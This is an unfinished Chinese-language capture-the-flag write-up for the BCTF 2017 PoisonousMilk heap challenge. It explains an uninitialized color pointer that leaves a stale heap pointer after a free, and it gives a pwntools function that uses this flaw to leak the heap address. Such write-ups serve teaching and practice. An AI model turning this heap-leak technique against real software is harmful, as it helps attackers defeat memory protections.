


# Unfinished
orz 技巧好多

## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>


同时附上链接<br>
(usf poisonous_milk)[http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html]


## Vuln

漏洞点感觉比较难发现，是

对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>

c++
```
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>

Python
```
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```
